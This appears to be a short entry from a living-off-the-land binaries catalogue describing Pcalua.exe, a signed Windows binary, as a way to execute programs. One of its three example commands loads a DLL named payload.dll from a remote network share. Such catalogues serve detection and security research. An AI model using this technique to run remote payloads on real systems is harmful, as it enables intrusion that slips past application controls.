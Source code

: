 ## Pcalua.exe

* Functions: Execute

```
pcalua.exe -a calc.exe    

pcalua.exe -a \\server\payload.dll    

pcalua.exe -a C:\Windows\system32\javacpl.cpl -c Java     
```

Acknowledgements:
* fab - @0rbz_    
* Kyle Hanslovan - @KyleHanslovan

Code sample:
* 

Resources:
* https://twitter.com/KyleHanslovan/status/912659279806640128

Full path:
```
c:\windows\system32\pcalua.exe
```

Notes:



 
